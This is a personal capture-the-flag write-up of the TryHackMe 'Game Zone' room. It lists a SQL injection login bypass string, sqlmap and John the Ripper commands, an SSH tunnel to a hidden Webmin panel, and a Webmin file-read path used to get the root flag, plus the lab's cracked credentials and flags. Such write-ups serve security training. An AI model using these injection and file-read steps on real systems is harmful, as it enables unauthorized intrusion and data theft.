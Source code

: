#HashCracking #SQL 

Learn to hack into this machine. Understand how to use SQLMap, crack some passwords, reveal services using a reverse SSH tunnel and escalate your privileges to root!

This room will cover SQLi (exploiting this vulnerability manually and via SQLMap), cracking a users hashed password, using SSH tunnels to reveal a hidden service and using a metasploit payload to gain root privileges.

---
`10.10.163.142`
`nmap -sV 10.10.163.142` = 22 ssh, 80 http


What is the name of the large cartoon avatar holding a sniper on the forum?

- hint= Reverse Image Search
- `http://10.10.163.142:80` Game Zone website 
- source code, `index.php`, `images/userlogin_enter.gif`, header image but no name, search image
- google images > `agent 47`
---

## SQLi

SQL is a standard language for storing, editing and retrieving data in databases.
- `SELECT * FROM users WHERE username =: username AND password := password`

In our GameZone machine, when you attempt to login, it will take your inputted values from your username and password, then insert them directly into the query above
- place for attack with SQL query
- username `admin`
- password ` ' or 1=1--`   fails as no admin in database

The extra SQL we inputted as our password has changed the above query to break the initial query and proceed (with the admin user) if `1==1` then comment the rest of the query to stop it breaking

- username ` ' or 1=1 -- -`   need 3rd dash!
- no password
- now @ `/portal.php`

## SQLmap

SQLMap is a popular open-source, automatic SQL injection and database takeover tool. This comes pre-installed on all version of [Kali Linux](https://tryhackme.com/rooms/kali) or can be manually downloaded and installed [here](https://github.com/sqlmapproject/sqlmap).

different types of SQL injection 
- boolean
- time based

Use SQLmap to dump the entire database for GameZone and point SQLmap to the game review search feature
- need to use BurpSuite 
- Game Zone portal type `test` in game review search bar while Burp Proxy > Intercept


burp browser > allow burp browser
open burp browser > go to the ip:80 > SQLi attack (no password) > Burp: Forward request > type `test` in the search bar > Burp: forward > Action: copy to file > save request `request.txt`

we can pass this request.txt file to SQLmap to use our authenticated user session
- `sqlmap -r request.txt --dbms=mysql --dump`
- enter `y` to every query

In the users table, what is the hashed password?
- ` ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 `

What was the username associated with the hashed password?
- `agent47`

What was the other table name?
- scroll up in terminal
- `post`

## John the Ripper

John the Ripper (JTR) is a fast, free and open-source password cracker. This is also pre-installed on all Kali Linux machines.

`nano hash.txt` > paste in the hash from above

`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256`

What is the de-hashed password?
- use the command above
- ` videogamer124 `

we have username: `agent47`
we have password: `videogamer124`

Try SSH'ing onto the machine.

What is the user flag?
- `ssh agent47@10.10.163.142`
- `videogamer124`
- ls > user.txt
- ` 649ac17b1480ac13ef1e4fa579dac95c `

## reverse SSH

reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.

- `-L`  is local tunnel {YOU <--- Client} if a site was blocked you can forward the traffic to a server you own & view it	
- if imgur.com was blocked at work, you can `ssh -L 9000:imgur.com:80 user@example.com` going to localhost:9000 on your machine will load imgur
- `-R` is remote {YOU --> Client}  you forward your traffic to other server for others to view

use a tool `ss` to investigate sockets running on a host
- `ss -tulpn`

|   |   |
|---|---|
|**Argument**|**Description**|
|-t|Display TCP sockets|
|-u|Display UDP sockets|
|-l|Displays only listening sockets|
|-p|Shows the process using the socket|
|-n|Doesn't resolve service names|

< still logged in the SSH >

How many TCP sockets are running?
- `ss -tulpn`
- 5
- 
![[Screen Shot 2023-10-06 at 11.30.33 AM.png]]

We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, Using an SSH Tunnel we can expose the port to us (locally)!

From our local machine, run
- exit previous SSH session
- `ssh -L 10000:localhost:10000 <username>@<ip>`
- now we have a webserver

What is the name of the exposed CMS?
- `webmin`

  
What is the CMS version?
- `agent47:videogamer124`
- source code `Webmin 1.580`


Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine.

What is the root flag?
- hint= The correct payload will also give you root access. Flag located at /root/root.txt
- add this to the url in browser `localhost:10000` + `/file/show.cgi/root/root.txt`
- ` a4b945830144bdd71908d12d902adeee `



---
### reference 
- https://medium.com/@antonyn/tryhackme-gamezone-1a5b13fbdf2a




